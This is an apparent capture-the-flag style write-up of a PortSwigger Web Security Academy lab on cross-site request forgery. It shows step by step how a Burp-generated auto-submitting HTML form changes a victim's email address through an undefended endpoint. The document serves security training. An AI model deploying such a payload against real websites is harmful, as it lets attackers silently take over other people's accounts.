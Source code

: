 # Lab: CSRF vulnerability with no defenses

 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 

# Step 1 Walk the application's email change functionality


Fist I login to the web app with the supplied account:

![image](https://user-images.githubusercontent.com/83407557/210661610-d5b3cd2d-246e-4f8e-a449-bff691d31ec2.png)

And Send a request to change my email to burp:

![image](https://user-images.githubusercontent.com/83407557/210661432-fef37f97-4b72-4c04-81ea-bf8869528ffa.png)

![image](https://user-images.githubusercontent.com/83407557/210661677-7d8dc92d-382f-4770-9012-dabf3da8cca1.png)

# Step 2 Craft CSRF POC

I then go into http history and find the POST request that was sent to change my email

![image](https://user-images.githubusercontent.com/83407557/210661900-1db814e9-5fa3-42c4-a079-80f57c50b09c.png)

Right clicking the request I go to engagement tools -> Generate CSFR POC:

![image](https://user-images.githubusercontent.com/83407557/210662190-ba25ab9c-da72-440b-af06-0119ac7a2f2d.png)

Under options I select include-auto-submit script, then click regenerate to add the auto-submit:

![image](https://user-images.githubusercontent.com/83407557/210663595-61cdaac9-a72c-4b9e-bcf4-cb895c9d7924.png)

Making the payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ade00ed0418d005c03fdb41001000b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hermh4cks&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


# Step 3 Add CSRF on my attack-server

I add the payload into the msg body of my /exploit page and click store:

![image](https://user-images.githubusercontent.com/83407557/210663908-a5d40f1b-4601-407f-abe7-84fa8e6f5d5f.png)


# Step 4 test that exploit is working

First I change my email back to something else:

![image](https://user-images.githubusercontent.com/83407557/210664008-a230abec-f3bc-4cf5-b91b-6120b3d302dd.png)

Clicking view exploit:

![image](https://user-images.githubusercontent.com/83407557/210664084-04edad1a-5db7-4436-b5df-206dda3de2fc.png)

I see that it changes my email again:

![image](https://user-images.githubusercontent.com/83407557/210664133-68108c80-a474-40a9-8db3-c4d28ca0d0a0.png)

# Step 4 Send exploit to victem:

![image](https://user-images.githubusercontent.com/83407557/210664201-664f4e9a-7004-4881-8c6d-05ea1425046b.png)

While I cannot see the outcome, as CSRF is one-way, I do see that the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/210664383-ea981df0-6461-447b-8801-c8cdc79b744e.png)



